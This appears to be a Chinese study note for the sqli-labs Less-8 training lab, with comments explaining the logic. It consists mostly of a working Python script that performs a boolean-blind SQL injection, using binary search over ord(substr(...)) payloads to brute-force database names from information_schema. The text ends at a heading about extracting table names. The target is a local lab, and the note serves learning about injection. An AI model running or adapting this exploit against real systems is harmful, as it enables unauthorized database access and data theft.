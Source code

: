 内部有解析

```python
# 爆破数据库名
import requests
import re
import string 
# payload : id=1' and ord(substr(select group_concat(schema_name) from information_schema.schemata),{},1)>{}
# mysql命名规则: 使用小写字母和下划线 ----> ascii(97,122)  ascii('_') = 95

# 获取所有特殊符号和非特殊符号
chars = 'abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'
result = ''

# 自己根据数据库名长度来对范围进行调整
# 我试试超出范围会发生什么问题
# 没有问题，会自动转换成！号
# 为什么会转换成！
# 进行演算：假设这个没有值，那么会一直返回false，max = mid,直至max = min+1,max = 33
# 此时的ascii(33) = !
for i in range(1,10):
    print('*'*15,i,'*'*15)
    min = 32
    max = 126

    while min != max:
        mid = (max + min) // 2  # 因为向下整除的原因，迟早会出现max = min + 1 
        url = f"http://localhost/sqli-labs/Less-8/?id=1' and ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid} %23"

        print('[*]:',url)

        res = requests.get(url).text

        if max == min+1: # [1,5] mid = 3,ans = 4 # True[3,5] mid = 4 # ans = mid False[3,4] # min+1 = max
            break

        if re.search("You are in",res): # 如果这个值大于mid,i属于[mid,max]
            min = mid
        else:
            max = mid
    result += chr(max)
    print(result)
```



> [!important]
>
> chars可有可无，如果需要使用就是另一种写法了，主要是使用模拟可能会更快一些。

爆表名
